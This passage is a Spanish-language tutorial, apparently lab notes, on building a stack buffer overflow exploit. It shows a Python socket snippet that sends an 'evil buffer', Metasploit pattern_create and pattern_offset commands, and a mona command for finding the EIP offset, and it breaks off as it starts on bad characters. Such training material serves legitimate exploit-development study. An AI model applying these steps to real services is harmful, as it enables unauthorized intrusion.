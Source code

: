 ```python
try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```

Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20231201100104.png]]

Y ahora esta data la vamos a pegar dentro de la variable Payload del script de python mostrado anteriormente:
![[Pasted image 20231201100147.png]]

Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona:
```python
!mona findmsp -distance 600
```

Ejecutamos este exploit:
![[Pasted image 20231201100459.png]]

Y en el inmunnity debugger nos debería de salir otro número en el EIP:
![[Pasted image 20231201101012.png]]

Una vez obtenido el EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20231201101101.png]]

Lo añadimos a nuestro exploit, además de añadir BBBB en la variable retn:
![[Pasted image 20231201101201.png]]

Lanzamos nuevamente el exploit:
![[Pasted image 20231201101444.png]]

Y deberíamos de tener este resultado en el EIP:
![[Pasted image 20231201101501.png]]

## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.
